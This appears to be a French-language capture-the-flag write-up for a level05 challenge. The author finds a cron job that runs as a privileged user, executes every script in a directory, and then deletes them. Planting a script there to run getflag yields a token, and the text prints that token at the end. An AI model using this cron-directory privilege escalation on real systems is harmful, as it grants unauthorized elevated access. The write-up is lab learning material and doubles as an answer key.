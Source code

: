 redemarer votre vm ou ssh

on as un nouveau mail ? 

find / -type d -name "mail" 2> /dev/null

cd /var/mail

cat level05

*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

oh  ok ce mail nous dit que toute les 2min le programme openarenaserver vas s'execute, mais que fait ce programme ?

cat /usr/sbin/openarenaserver

on peux voir que ce script bash vas executer tout les programmes dans le dossier /otp/openarenaserver puis vas suprimmer le programme

on peux voir en faisant la -la dans le docier que ce sript bash a les permisions: -rwxr-x---+

le + signifie qu'il a des drois d'admin ou en tout cas supérieur au notre

ok, alors si on a les drois, on vas créer un petit programme

echo > test.sh

vim test.st

```sh
#!/bin/bash

# Commande dont vous souhaitez obtenir le résultat
commande="votre_commande" 
# de preférence getflag

# Chemin complet du fichier de sortie dans /tmp
fichier_sortie="/tmp/resultat.txt"

# Exécute la commande et redirige la sortie vers le fichier de sortie
$commande > $fichier_sortie
```

plus qu'a attendre 

cd /tmp

cat resultat.txt

voilla notre token 

Check flag.Here is your token : viuaaale9huek52boumoomioc
